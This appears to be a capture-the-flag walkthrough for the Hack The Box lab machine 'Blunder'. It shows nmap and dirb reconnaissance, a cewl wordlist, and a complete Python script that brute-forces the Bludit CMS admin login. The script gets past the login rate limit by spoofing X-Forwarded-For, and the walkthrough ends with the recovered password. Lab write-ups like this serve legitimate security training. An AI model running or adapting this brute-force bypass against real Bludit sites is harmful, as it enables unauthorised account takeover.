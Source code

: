 # Walkthrough

* Check open ports with
  * `$ nmap -A -o nmap_escaneo.txt 10.10.10.191`

```
# Nmap 7.80 scan initiated Tue Oct 13 04:41:30 2020 as: nmap -A -o escaneo.txt 10.10.10.191
Nmap scan report for 10.10.10.191
Host is up (0.038s latency).
Not shown: 998 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 13 04:41:43 2020 -- 1 IP address (1 host up) scanned in 13.08 seconds
```

* Check existing directories with
  * `$ dirb http://10.10.10.191 -o dirb_fuzzed.txt`

```

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: fuzzed.txt
START_TIME: Tue Oct 13 06:02:30 2020
URL_BASE: http://10.10.10.191/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.10.191/ ----
+ http://10.10.10.191/0 (CODE:200|SIZE:8045)
+ http://10.10.10.191/about (CODE:200|SIZE:3281)
==> DIRECTORY: http://10.10.10.191/admin/
+ http://10.10.10.191/cgi-bin/ (CODE:301|SIZE:0)
+ http://10.10.10.191/empty (CODE:200|SIZE:3576)
+ http://10.10.10.191/LICENSE (CODE:200|SIZE:1083)
+ http://10.10.10.191/robots.txt (CODE:200|SIZE:22)
+ http://10.10.10.191/server-status (CODE:403|SIZE:277)
+ http://10.10.10.191/xyz (CODE:200|SIZE:3319)

---- Entering directory: http://10.10.10.191/admin/ ----
+ http://10.10.10.191/admin/ajax (CODE:401|SIZE:0)

-----------------
END_TIME: Tue Oct 13 06:17:57 2020
DOWNLOADED: 9224 - FOUND: 9
```

* Create our own wordlist for the fuzzer
  * `$ cewl 10.10.10.191 -w dict.txt`

* Download bruteforce tool for Blunder [here](https://rastating.github.io/bludit-brute-force-mitigation-bypass/)

* Change ip address, username and wordlist
```python3
#!/usr/bin/python3
import re
import requests

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = []


file = open("wordlist.txt", "r").read().splitlines()

for password in file:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
```

* Execute the script
  * `$ python3 fuzzer.py`

```
SUCCESS: Password found!
Use fergus:RolandDeschain to login.
```